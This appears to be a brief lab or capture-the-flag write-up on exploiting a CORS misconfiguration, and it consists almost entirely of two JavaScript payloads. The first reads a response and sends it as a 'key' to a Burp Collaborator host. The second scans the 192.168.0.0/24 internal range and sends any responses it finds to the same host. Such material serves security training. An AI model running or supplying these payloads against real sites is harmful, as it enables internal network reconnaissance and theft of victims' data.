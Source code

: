 We checked cors vulnerability exists.

```
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','https://ng7tyefwag7aqw5tjno7oqp1lsrif7.burpcollaborator.net',true);
   req.send();

   function reqListener() {
       location='https://ng7tyefwag7aqw5tjno7oqp1lsrif7.burpcollaborator.net/log?key='+this.responseText;
   };
</script>
```

We can find the internal address with this script. It scans 192.168.0.0/24 IP block, then it makes get request to collaborator address.

```
<script>
  var q = [], collaboratorURL = 'http://ng7tyefwag7aqw5tjno7oqp1lsrif7.burpcollaborator.net/';
  for(i=1;i<=255;i++){
    q.push(
    function(url){
      return function(wait){
      fetchUrl(url,wait);
      }
    }('http://192.168.0.'+i+':8080'));
  }
  for(i=1;i<=20;i++){
    if(q.length)q.shift()(i*100);
  }
  function fetchUrl(url, wait){
    var controller = new AbortController(), signal = controller.signal;
    fetch(url, {signal}).then(r=>r.text().then(text=>
      {
      location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now()
    }
    ))
    .catch(e => {
    if(q.length) {
      q.shift()(wait);
    }
    });
    setTimeout(x=>{
    controller.abort();
    if(q.length) {
      q.shift()(wait);
    }
    }, wait);
  }
</script>
```
